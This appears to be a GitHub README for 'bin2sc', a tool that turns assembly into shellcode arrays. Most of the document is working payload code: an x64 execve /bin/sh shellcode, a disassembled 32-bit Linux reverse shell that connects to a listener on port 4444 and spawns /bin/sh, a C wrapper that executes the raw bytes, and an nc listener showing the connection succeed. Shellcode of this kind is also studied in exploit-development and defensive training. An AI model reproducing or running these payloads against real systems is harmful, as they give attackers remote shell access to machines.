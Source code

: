# bin2sc
Binary to shellcode

Note:
The core DLLs of Win32 are `kernel32.dll, user32.dll, and gdi32.dll`. if your shellcode uses syscalls from any of the core DLLs, you will need to add it. 

Win32 libs are located in `C:\\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\`, in my case is `10.0.18362.0` version, but in your host machine could change.

## Install
```
git clone https://github.com/SkyBulk/bin2sc.git
chmod +x bin2sc.py
python3 bin2sc.py 
```

## Example Usage:
```python;
python3 bin2sc.py shellcode.asm {sc_arr,sc_app} {linux,win} {x86,x64} /full/path/to/WinApi32/kernel32.Lib
```

```asm
[+] block Shellcode
shellcode = ""
shellcode += "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f"
shellcode += "\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f"
shellcode += "\x05"

[+] linear shellcode

\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05


[+] linear shellcode

shellcode = [0xf7, 0xe6, 0x50, 0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x48, 0x89, 0xe7, 0xb0, 0x3b, 0x0f, 0x05]
```

### Double check shellcode opcodes 

```asm
shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	89 e5                	mov    ebp,esp
 8048062:	31 c0                	xor    eax,eax
 8048064:	31 c9                	xor    ecx,ecx
 8048066:	31 d2                	xor    edx,edx
 8048068:	50                   	push   eax
 8048069:	50                   	push   eax
 804806a:	b8 ff ff ff ff       	mov    eax,0xffffffff
 804806f:	bb 80 ff ff fe       	mov    ebx,0xfeffff80
 8048074:	31 c3                	xor    ebx,eax
 8048076:	53                   	push   ebx
 8048077:	66 68 11 5c          	pushw  0x5c11
 804807b:	66 6a 02             	pushw  0x2
 804807e:	31 c0                	xor    eax,eax
 8048080:	31 db                	xor    ebx,ebx
 8048082:	66 b8 67 01          	mov    ax,0x167
 8048086:	b3 02                	mov    bl,0x2
 8048088:	b1 01                	mov    cl,0x1
 804808a:	cd 80                	int    0x80
 804808c:	89 c3                	mov    ebx,eax
 804808e:	66 b8 6a 01          	mov    ax,0x16a
 8048092:	89 e1                	mov    ecx,esp
 8048094:	89 ea                	mov    edx,ebp
 8048096:	29 e2                	sub    edx,esp
 8048098:	cd 80                	int    0x80
 804809a:	31 c9                	xor    ecx,ecx
 804809c:	b1 03                	mov    cl,0x3

0804809e <dup>:
 804809e:	31 c0                	xor    eax,eax
 80480a0:	b0 3f                	mov    al,0x3f
 80480a2:	49                   	dec    ecx
 80480a3:	cd 80                	int    0x80
 80480a5:	41                   	inc    ecx
 80480a6:	e2 f6                	loop   804809e <dup>
 80480a8:	31 c0                	xor    eax,eax
 80480aa:	31 d2                	xor    edx,edx
 80480ac:	50                   	push   eax
 80480ad:	68 2f 2f 73 68       	push   0x68732f2f
 80480b2:	68 2f 62 69 6e       	push   0x6e69622f
 80480b7:	89 e3                	mov    ebx,esp
 80480b9:	b0 0b                	mov    al,0xb
 80480bb:	cd 80                	int    0x80
```

## shellcode testing 
```
blackleitus@blackleitus:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

## Wrapper shellcode

```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\xff\xff\xff\xff\xbb\x80\xff\xff\xfe\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main(void) {
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

`Connection from localhost 49058 received!` 
